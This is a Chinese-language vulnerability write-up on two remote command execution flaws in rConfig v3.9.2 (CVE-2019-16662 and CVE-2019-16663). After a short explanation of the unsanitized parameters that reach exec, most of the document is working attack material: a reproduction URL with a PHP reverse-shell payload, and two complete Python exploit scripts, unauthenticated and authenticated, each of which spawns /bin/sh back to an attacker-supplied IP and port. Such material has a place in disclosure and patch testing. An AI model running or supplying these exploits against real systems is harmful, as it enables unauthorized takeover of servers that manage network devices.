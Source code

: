 （CVE-2019-16662）（CVE-2019-16663）rConfig v3.9.2 远程命令执行
===============================================================

一、漏洞简介
------------

我在两个文件中分别发现了两个远程代码执行漏洞。第一个是ajaxServerSettingsChk.php，攻击者可以通过rootUname参数发送精心构造的一个GET请求，触发未授权RCE漏洞。rootUname参数在源文件第2行中定义，随后会在第13行传递给exec函数，攻击者可以构造参数接收内容实现让操作系统执行恶意命令。这个漏洞很容易利用和发现,后面的篇幅中我将介绍如何发现并利用这个漏洞。

第二个漏洞是在search.crud.php发现的，这文件需要通过身份验证才能触发远程代码执行漏洞。这个漏洞可以通过构造一个包含有两个参数的GET请求触发，其中searchTerm参数可以包含任意值，但该参数必须存在，才能执行到第63行的exec函数。

二、漏洞影响
------------

rConfig v3.9.2

三、复现过程
------------

    https://www.0-sec.org/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=`php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

![](resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId24.png)

pyton脚本一

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 unauthenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16662
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22

    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 4:
        print "[+] Usage : ./exploit.py target ip port"
        exit()

    target = sys.argv[1]

    ip = sys.argv[2]

    port = sys.argv[3]

    payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i <&3 >&3 2>&3");'#'''.format(ip, port))

    install_path = target + "/install"

    req = requests.get(install_path, verify=False)
    if req.status_code == 404:
        print "[-] Installation directory not found!"
        print "[-] Exploitation failed !"
        exit()
    elif req.status_code == 200:
        print "[+] Installation directory found!"
    url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

    print "[+] Triggering the payload"
    print "[+] Check your listener !"

    requests.get(url_to_send, verify=False)

![](resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId25.png)

python脚本二

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 Authenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16663
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22


    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning


    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 6:
        print "[+] Usage : ./exploit.py target username password ip port"
        exit()

    target = sys.argv[1]

    username = sys.argv[2]

    password = sys.argv[3]

    ip = sys.argv[4]

    port = sys.argv[5]

    request = requests.session()

    login_info = {
        "user": username,
        "pass": password,
        "sublogin": 1
    }

    login_request = request.post(
        target+"/lib/crud/userprocess.php",
         login_info,
         verify=False,
         allow_redirects=True
     )

    dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)


    if dashboard_request.status_code == 200:
        print "[+] LoggedIn successfully"
        payload = '''""&&php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i <&3 >&3 2>&3");'#'''.format(ip, port)
        encoded_request = target+"/lib/crud/search.crud.php?searchTerm=anything&catCommand={0}".format(quote(payload))
        print "[+] triggering the payload"
        print "[+] Check your listener !"
        exploit_req = request.get(encoded_request)

    elif dashboard_request.status_code == 302:
        print "[-] Wrong credentials !"
        exit()

![](resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId26.png)
